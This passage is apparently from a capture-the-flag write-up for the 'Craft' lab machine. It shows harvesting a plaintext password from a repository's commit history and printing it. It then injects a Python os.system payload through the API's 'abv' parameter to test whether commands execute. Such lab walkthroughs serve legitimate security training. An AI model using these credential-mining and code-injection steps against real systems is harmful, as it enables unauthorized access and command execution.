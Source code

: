 We need to remember that the _abv_ parameter could be vulnerable to user input.

By cloning the repository into our local client, it can be analyzed easier:
```markdown
git -c http.sslVerify=false clone https://gogs.craft.htb/Craft/craft-api.git
```

There are tools that try to automatically find secrets and tokens, but both find nothing:
- [GitLeaks](https://github.com/zricethezav/gitleaks)
- [TruffleHog](https://github.com/dxa4481/truffleHog)

So we will analyze this repository manually:
```markdown
git log
```

Searching through all commits:
```markdown
git diff e55e12d800248c6bddf731462d0150f6e53c0802
git diff a2d28ed1554adddfcfb845879bfea09f976ab7c1
git diff 10e3ba4f0a09c778d7cec673f28d410b73455a86
git diff c414b160578943acfe2e158e89409623f41da4c6
(...)
```

The commit _10e3ba4f0a09c778d7cec673f28d410b73455a86_ had a password in _tests/test.py_ for _dinesh_:
```python
# (...)
response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
# (...)
```

After trying the password on all services, it worked on the **Gogs** login, but has no admin rights on the platform.

#### Getting Command Execution with Credentials

By modifying _tests/test.py_ and putting the credentials and abusing the _abv_ parameter, it can be tested for command execution:
```python
# (...)
requests.packages.urllib3.disable_warnings()

cmd = '__import__("os").system("ping -c 1 10.10.14.19")'

response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)

# (...)

brew_dict['abv'] = cmd

# (...)
```
